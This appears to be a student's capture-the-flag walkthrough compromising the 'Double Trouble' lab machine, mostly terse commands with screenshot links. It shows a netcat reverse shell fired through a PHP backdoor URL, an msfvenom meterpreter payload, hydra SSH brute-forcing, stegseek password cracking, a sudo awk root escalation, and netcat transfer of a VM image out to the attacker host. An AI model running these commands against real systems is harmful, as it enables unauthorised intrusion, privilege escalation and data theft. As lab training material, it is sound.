 ﻿# Double Trouble 192.168.56.104
## Andrea Zonnekus 18758119

nmap -F 192.168.56.0/24

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.001.png)

nikto -o nikto -Format text -host <http://192.168.56.104/>

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.002.png)

sudo nmap -sV -Pn $host --version-all -oX host.nmap

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.003.png)

dirb -i 192.168.56.104 > dirb &

sudo searchsploit -v --nmap host.nmap -jw

<https://www.exploit-db.com/exploits/50176>

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.004.png)

(keep this for later)

We can see from nikto that we have the /install directory available, for csx follow:

<https://topsecalphalab.github.io/CVE/qdPM9.1-Installer-Cross-Site-Scripting>

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.005.png)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.006.png)



browser recon

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.007.png)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.008.png)

<https://www.exploit-db.com/exploits/50176>

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.009.png)
![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.010.png)
![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.011.png)

Get to next steps

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.012.png)



try to do something useful with that (after a little while I realised that encoded rush is just rush)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.013.png)

steghide --info doubletrouble.jpg

sudo stegseek --crack doubletrouble.jpg /usr/share/wordlists/rockyou.txt dt\_results.txt

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.014.png)

use to log in

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.015.png)



sudo hydra -l otis -P /usr/share/legion/wordlists/ssh-betterdefaultpasslist.txt -e nsr $host ssh

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.016.png)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.017.png)

sudo python3 50944.py -url http://192.168.56.104:80/ -u otisrush@localhost.com -p otis666

<https://www.exploit-db.com/exploits/50944>

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.018.png)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.019.png)

info

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.020.png)![](Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.021.png)

<http://192.168.56.104/uploads/users/429075-backdoor.php?cmd=nc%20192.168.56.102%204444%20-e%20/bin/bash>

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.022.png)

touch tst

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.023.png)

msfvenom -p linux/x64/meterpreter/reverse\_tcp LHOST=192.168.56.102 LPOST=4444 -o shell

find / -user root \( -perm -4000 -o -perm -2000 \) 2>/dev/null

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.024.png)

nc -lvp 666 > pwd

nc 192.168.56.104 4444 < shell (from attacker)

nc -lp 4444 > shell (from victim)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.025.png)

python3 -c 'import pty; pty.spawn("/bin/bash")'

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.026.png)

sudo -l

sudo awk 'BEGIN {system("/bin/bash")}'

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.027.png)

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.028.png)

no locate available, but home dir looks interesting, note the ova and it’s size

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.029.png)

sudo nc -lzp 4444 > second.ova

nc 192.168.56.102 4444 < doubletrouble.ova

ls -lah

![](double_trouble1_steps/Aspose.Words.97293ee5-24b2-4656-ad0b-33afda096b28.030.png)
